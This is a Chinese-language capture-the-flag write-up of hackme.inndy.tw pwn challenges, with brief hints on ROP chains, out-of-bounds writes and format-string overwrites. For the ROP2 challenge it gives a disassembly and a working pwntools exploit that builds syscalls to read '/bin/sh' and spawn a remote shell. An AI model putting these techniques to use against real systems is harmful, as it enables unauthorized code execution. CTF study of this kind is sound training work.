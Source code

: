 ```yaml
---
title: Writeup::hackme.inndy.tw
date: 2021-10-17 21:12:04
tags: pwn
---
```


## catflag
用pwntools 送出指令，不要用ncat
## homework
仔細觀察組語，可以發現return address的對應index

利用OOB直接就可以解

## toooomuch
猜數字遊戲，隨便一個二分搜就有答案
<!-- more -->
## toooomuch2
簡單的ROP，先利用 fgets()把shellcode吃到bss之後跳上去

## ROP
利用ROPGadget 就串得出來，也可以用 pop rdi 優化chain

## ROP2
### 保護機制
NX, Partial RELRO
### 程式邏輯
#### main
```asm
┌ 146: int main (int32_t arg_4h);
│           ; var int32_t var_33h @ ebp-0x33
│           ; var int32_t var_2fh @ ebp-0x2f
│           ; var int32_t var_2bh @ ebp-0x2b
│           ; var int32_t var_27h @ ebp-0x27
│           ; var int32_t var_23h @ ebp-0x23
│           ; var int32_t var_1fh @ ebp-0x1f
│           ; var int32_t var_1bh @ ebp-0x1b
│           ; var int32_t var_17h @ ebp-0x17
│           ; var int32_t var_13h @ ebp-0x13
│           ; var int32_t var_fh @ ebp-0xf
│           ; var int32_t var_bh @ ebp-0xb
│           ; var int32_t var_9h @ ebp-0x9
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_4h @ esp+0x54
│           0x08048487      8d4c2404       lea ecx, dword [arg_4h]
│           0x0804848b      83e4f0         and esp, 0xfffffff0
│           0x0804848e      ff71fc         push dword [ecx - 4]
│           0x08048491      55             push ebp
│           0x08048492      89e5           mov ebp, esp
│           0x08048494      51             push ecx
│           0x08048495      83ec34         sub esp, 0x34
│           0x08048498      83ec0c         sub esp, 0xc
│           0x0804849b      6a1e           push 0x1e                   ; 30
│           0x0804849d      e85efeffff     call sym.imp.alarm
│           0x080484a2      83c410         add esp, 0x10
│           0x080484a5      c745cd43616e.  mov dword [var_33h], 0x206e6143 ; 'Can '
│           0x080484ac      c745d1796f75.  mov dword [var_2fh], 0x20756f79 ; 'you '
│           0x080484b3      c745d5736f6c.  mov dword [var_2bh], 0x766c6f73 ; 'solv'
│           0x080484ba      c745d9652074.  mov dword [var_27h], 0x68742065 ; 'e th'
│           0x080484c1      c745dd69733f.  mov dword [var_23h], 0xa3f7369
│           0x080484c8      c745e1476976.  mov dword [var_1fh], 0x65766947 ; 'Give'
│           0x080484cf      c745e5206d65.  mov dword [var_1bh], 0x20656d20 ; ' me '
│           0x080484d6      c745e9796f75.  mov dword [var_17h], 0x72756f79 ; 'your'
│           0x080484dd      c745ed20726f.  mov dword [var_13h], 0x706f7220 ; ' rop'
│           0x080484e4      c745f1636861.  mov dword [var_fh], 0x69616863 ; 'chai'
│           0x080484eb      66c745f56e3a   mov word [var_bh], 0x3a6e   ; 'n:'
│           0x080484f1      c645f700       mov byte [var_9h], 0
│           0x080484f5      6a2a           push 0x2a                   ; '*' ; 42
│           0x080484f7      8d45cd         lea eax, dword [var_33h]
│           0x080484fa      50             push eax
│           0x080484fb      6a01           push 1                      ; 1
│           0x080484fd      6a04           push 4                      ; 4
│           0x080484ff      e81cfeffff     call sym.imp.syscall
│           0x08048504      83c410         add esp, 0x10
│           0x08048507      e848ffffff     call sym.overflow
│           0x0804850c      b800000000     mov eax, 0
│           0x08048511      8b4dfc         mov ecx, dword [var_4h]
│           0x08048514      c9             leave
│           0x08048515      8d61fc         lea esp, dword [ecx - 4]
└           0x08048518      c3             ret
```
跟上一題是差不多的邏輯，但多了`syscall()`

也可以在`overflow()`找到漏洞

### 利用方式
由於有`syscall`, 可以構造任意system call, 而且因為是x86, 所以不用找pop gadget

在binary中找不到`/bin/sh`, 所以可以先構造syscall把`/bin/sh`讀到記憶體中, 再想辦法getshell
#### exploit:
```python
#!/usr/bin/env python2

from pwn import *
import pwnlib.elf

p = remote('hackme.inndy.tw', 7703)
e = ELF('./rop2')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(3) + p32(0)
payload += p32(e.bss()) + p32(8) # syscall(3, 0, Bss, 8)

p.sendline(payload)
p.send('/bin/sh\x00')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(0xb) + p32(e.bss())
payload += p32(0) + p32(0) # syscall(0xb, '/bin/sh', 0, 0)
p.sendline(payload)

p.interactive()
p.close()
```
### echo
用`fmtstr_payload()`把 `printf()` 改成 `system()`
讓程式接著跑，她就會自己跑到`printf(“/bin/sh”)` 了
### smashthestack
有開canary，但是仍可以利用 `__stack_chk_fail` 印出在記憶體中的flag

構造長一點的payload，一路蓋到 `__libc_argv[0]` 就好

